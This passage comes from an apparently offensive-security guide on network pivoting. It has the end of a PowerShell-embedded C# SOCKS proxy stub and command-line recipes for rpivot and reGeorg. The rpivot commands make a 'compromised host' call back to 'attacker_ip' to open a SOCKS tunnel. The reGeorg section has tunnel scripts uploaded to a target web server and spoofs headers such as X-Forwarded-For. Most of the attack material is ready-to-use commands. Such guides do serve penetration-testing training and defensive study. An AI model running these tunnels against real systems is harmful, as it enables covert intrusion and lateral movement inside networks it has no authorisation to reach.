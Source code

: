 ```powershell
        listener.Start();
        while (true) {
            TcpClient client = listener.AcceptTcpClient();
            Thread thread = new Thread(() => HandleClient(client));
            thread.Start();
        }
    }
    
    private static void HandleClient(TcpClient client) {
        // SOCKS5 protocol implementation should be inserted here.
        // For full details, refer to RFC 1928.
    }
}
"@

Add-Type -TypeDefinition $code
[SocksProxy]::Start(1080)
```

## 8. Cross-Platform Tunneling Solutions
:::note
All examples in this section assume you have downloaded or cloned the respective tool repositories (e.g., rpivot, reGeorg, stunnel, dnscat2) and fulfilled any dependencies. Substitute IP addresses, script paths, and ports to fit your scenario.
:::
### 8.1 rpivot: HTTP-Based Tunneling

rpivot provides HTTP/HTTPS tunneling with SOCKS proxy capabilities:

```bash
# Server setup (attacker machine)
python rpivot_server.py --server-port 9999 --server-ip 0.0.0.0 --proxy-port 9050

# Client connection (compromised host)
python rpivot_client.py --server-ip attacker_ip --server-port 9999

# HTTPS mode for encrypted tunneling
python rpivot_server.py --server-port 443 --server-ip 0.0.0.0 --proxy-port 9050 --ssl

# Client with custom headers
python rpivot_client.py --server-ip attacker_ip --server-port 9999 --user-agent "Mozilla/5.0"

# Client through HTTP proxy
python rpivot_client.py --server-ip attacker_ip --server-port 9999 --proxy proxy_host:8080
```

### 8.2 reGeorg: Web Application Tunneling

reGeorg creates tunnels through web application servers:

```bash
# Upload tunnel script to web server
# tunnel.aspx, tunnel.php, tunnel.jsp, or tunnel.py

# Start reGeorg client
python reGeorgSocksProxy.py -p 8080 -u http://target/tunnel.php

# Client with authentication
python reGeorgSocksProxy.py -p 8080 -u http://target/tunnel.php -H "Cookie: PHPSESSID=abc123"

# Client with custom headers
python reGeorgSocksProxy.py -p 8080 -u http://target/tunnel.php -H "User-Agent: Custom" -H "X-Forwarded-For: 127.0.0.1"
```